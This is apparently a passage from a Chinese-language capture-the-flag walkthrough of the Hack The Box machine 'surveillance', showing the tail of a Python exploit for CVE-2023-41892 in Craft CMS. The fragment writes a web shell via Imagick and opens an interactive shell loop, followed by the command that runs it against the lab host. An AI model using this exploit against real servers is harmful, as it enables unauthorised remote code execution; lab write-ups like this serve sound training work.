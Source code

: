 ```
        except requests.exceptions.ConnectionError as e:
            print("[-] Crash the php process and write temp file successfully")

        print("[-] Trigger imagick to write shell ...")
        try:
            trigerImagick(tmpDir)
        except:
            pass

        print("[-] Done, enjoy the shell")
        while True:
            cmd = input("$ ")
            shell(cmd)
```

使用python执行POC,直接上线web权限

```
python CVE-2023-41892.py http://surveillance.htb
```

![image-20231221090925546](../图片/image-20231221090925546.png)

查看目录文件及用户id

![image-20231218192345029](../图片/image-20231218192345029.png)
